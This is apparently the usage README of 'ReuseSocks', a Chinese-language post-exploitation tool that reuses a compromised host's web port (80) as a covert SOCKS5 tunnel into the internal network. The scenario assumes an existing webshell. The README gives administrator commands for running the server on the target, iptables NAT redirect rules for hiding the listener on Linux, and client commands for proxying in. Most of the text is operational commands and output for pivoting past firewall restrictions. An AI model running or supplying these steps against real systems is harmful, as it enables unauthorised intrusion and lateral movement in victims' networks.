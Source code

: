 ## 环境

目标：

​		外网只开放80端口

​		外网IP:www.test.com

​		内网IP:192.168.10.161

本机：

​		出口IP:36.11.14.121

通过webshell查看

```
netstat -nao
```

```
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       2240
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:902            0.0.0.0:0              LISTENING       7256
  TCP    0.0.0.0:912            0.0.0.0:0              LISTENING       7256
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       11252
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       6016
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       2000
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1896
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       2824
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       6236
  TCP    0.0.0.0:49673          0.0.0.0:0              LISTENING       1964
  TCP    0.0.0.0:55869          0.0.0.0:0              LISTENING       1144
  TCP    0.0.0.0:55889          0.0.0.0:0              LISTENING       16592
  TCP    192.168.10.161:80     36.11.14.121:2343      ESTABLISHED     804
  TCP    127.0.0.1:4709         0.0.0.0:0              LISTENING       1144
  TCP    127.0.0.1:8680         0.0.0.0:0              LISTENING       14264
  TCP    127.0.0.1:49962        0.0.0.0:0              LISTENING       4608
  TCP    127.0.0.1:50010        0.0.0.0:0              LISTENING       8208
  TCP    127.0.0.1:53197        0.0.0.0:0              LISTENING       17260
  TCP    [::]:135               [::]:0                 LISTENING       2240
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:7680              [::]:0                 LISTENING       6016
  TCP    [::]:49664             [::]:0                 LISTENING       2000
  TCP    [::]:49665             [::]:0                 LISTENING       1896
  TCP    [::]:49666             [::]:0                 LISTENING       2824
  TCP    [::]:49668             [::]:0                 LISTENING       6236
  TCP    [::]:49673             [::]:0                 LISTENING       1964
  TCP    [::]:55869             [::]:0                 LISTENING       1144
  TCP    [::]:55889             [::]:0                 LISTENING       16592
  TCP    [::1]:51194            [::]:0                 LISTENING       3828

```

我们出口IP`36.11.14.121`-> `192.168.10.161:80`

## 使用

### Windows

`help`

```cmd
C:\Users\Desktop>ReuseSocks_Server.exe ReuseSocks_Server.exe
ReuseSocks_Server.exe [lhost] [reuse prot] [md5(myip)]
myip is we link to its md5(IP)
it cannot reuse service port like IIS,RDP, but can reuse Mysql,Apache and so on
Use it carefully and bear the consequences.
```

#### 开启端口复用SOCKS5

目标系统执行服务端，注意使用管理员权限执行

```
C:\Users\Desktop>ReuseSocks_Server.exe [lhost]=192.168.10.161 [reuse prot]=80 [md5(myip)]=MD5(192.168.10.1)
```

```cmd
C:\Users\Desktop>ReuseSocks_Server.exe 192.168.10.161 80 1bac027cf67efcc4d10125724221fc48
```

本地执行客户端

```cmd
C:\Users\Desktop>ReuseSocks_client.exe -h
Usage of ReuseSocks_client.exe:
  -listen string
        listen loacl scoks5 (default "0.0.0.0:1080")
  -remote string
        Forward Remote Server eg: 192.168.0.1:80
```

连接目标（默认监听本地1080端口）

```cmd
C:\Users\Desktop>ReuseSocks_client.exe -remote 192.168.10.161:80
```

配置socks5代理为:`127.0.0.1:1080`即可

注意事项

​		当服务端启动之后请2分钟之内使用配置的出口IP(myip)访问一下,否则服务端会退出。

​		默认一个小时服务端程序退出，以免未知原因导致业务端口不能访问。

### linux

`help`

```bash
root@ReuseSock:/opt/lcx# ./ReuseSocks_Server ./ReuseSocks_Server 
./ReuseSocks_Server [Listen prot]
Use it carefully and bear the consequences.
```

#### 开启端口复用

**添加**

将来自[you_ip] IP地址的TCP流量，如果目标端口是80，将其重定向到端口ReuseSocks_Server监听的端口

```bash
sudo iptables -t nat -A PREROUTING -p tcp -s [you_ip] --dport 80[web端口] -j REDIRECT --to-port [ReuseSocks_Server监听的端口]
```

删除

```
sudo iptables -t nat -D PREROUTING -p tcp -s [you_ip] --dport 80[web端口] -j REDIRECT --to-port [ReuseSocks_Server监听的端口]
```

eg:

```
sudo iptables -t nat -A PREROUTING -p tcp -s 192.168.10.1 --dport 80 -j REDIRECT --to-port 1081
```

```bash
root@ReuseSock:/opt/lcx# ./ReuseSocks_Server 1081
2023/07/26 17:54:53 Listen on 0.0.0.0:1081
```

本地执行客户端

```cmd
C:\Users\Desktop>ReuseSocks_client.exe -h
Usage of ReuseSocks_client.exe:
  -listen string
        listen loacl scoks5 (default "0.0.0.0:1080")
  -remote string
        Forward Remote Server eg: 192.168.0.1:80
```

连接目标（默认监听本地1080端口）

```cmd
C:\Users\Desktop>ReuseSocks_client.exe -remote 192.168.10.161:80
```

配置socks5代理为:`127.0.0.1:1080`即可

注：使用完之后记得删除规则
